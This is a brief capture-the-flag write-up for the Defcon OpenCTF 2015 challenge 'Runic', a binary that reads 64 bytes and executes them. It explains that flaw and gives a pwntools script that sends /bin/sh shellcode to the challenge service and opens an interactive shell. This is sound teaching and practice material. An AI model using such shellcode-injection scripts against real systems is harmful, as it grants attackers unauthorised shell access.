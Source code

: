 ```yaml
---
layout: post
title:  "Defcon OpenCTF - Runic"
date:   2015-08-13 18:03:59
categories: CTF Writeup
---
```


## Recon

Below is the main function for Runic:

![Runic main](runic.png)

The following events happen:

* read() of 0x40 bytes (64 bytes)
* call() to the buffer that was just read into

We can send a max of 64 bytes of shellcode, which is immediately executed.

## Exploitation

The following script simply sends a `/bin/sh` shellcode, and a shell of ours.

{% highlight python %}
import sys
from pwn import * # pip install pwntools

context(arch='x86', os='linux')

HOST = '127.0.0.1'
PORT = 4444

## Example
# r = process('./runic')
r = remote(HOST, PORT)

# Debug process
'''
gdb.attach(r, """
bp 80484fa
c
""")
'''

shellcode = asm(shellcraft.sh())

r.sendline(shellcode)

r.interactive()
{% endhighlight %}
